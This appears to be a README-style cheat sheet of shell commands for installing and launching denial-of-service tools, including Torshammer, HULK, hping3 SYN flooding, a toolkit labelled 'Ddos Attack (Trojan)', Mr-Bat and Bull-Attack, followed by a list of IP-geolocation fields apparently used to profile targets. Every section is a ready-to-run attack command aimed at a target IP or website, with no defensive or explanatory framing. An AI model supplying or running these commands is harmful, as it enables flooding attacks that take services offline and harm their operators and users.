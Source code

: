 ꕤꕤꕤꕤꕤ

¹ Torshammer

    cd /usr/share && apt update -y && apt install git tor python && git clone https://github.com/dotfighter/torshammer.git && cd torshammer && chmod +x torshammer.py
#
    python2 torshammer.py
#
    ./torshammer.py -t ip -r 256

¹ Ddos Attack (Trojan)

    cd /usr/share && apt install git python bash toilet lolcat cowsay -y && git clone https://github.com/BPCATTACKER/DOS-TOOKIT.git && cd DOS-TOOKIT && chmod +x DOS-TOOKIT.sh && sh DOS-TOOKIT.sh

ꕤꕤꕤꕤꕤ

¹ hping3

    apt install hping3 -y
#
    hping3 --flood -p 80 -S ip

https://github.com/antirez/hping


ꕤꕤꕤꕤꕤ

¹ hulk
    
    cd /usr/share && apt update && apt upgrade && apt install python -y && git clone https://github.com/darkwarrior3/hulk.git && cd hulk && chmod +x hulk.py
#
    python2 hulk.py website

#


¹ mr-bat

    cd /usr/share && apt update && apt upgrade && apt install python2 && apt install git && git clone https://www.github.com/Bhai4You/Mr.Bat && cd Mr.Bat
#
    python2 mr-bat.py

#
ꕤꕤꕤꕤꕤ

¹ Bull-Attacker

    cd /usr/share && git clone https://www.github.com/Bhai4You/Bull-Attack && cd Bull-Attack && chmod +x B-attack.py
#    
    python B-attack.py

#


    ¶¶ ONLINE                         
    ¶¶ ISPl
    ¶¶ ORG. NAME
    ¶¶ CITY
    ¶¶ CITY TIMEZONE
    ¶¶ REGION NAME
    ¶¶ REGION CODE
    ¶¶ COUNTRY
    ¶¶ COUNTRY CODE
    ¶¶ ZIP CODE 
    ¶¶ LATITUDE
    ¶¶ LONGITUDE
    ¶¶ AS NUMBER/NAME
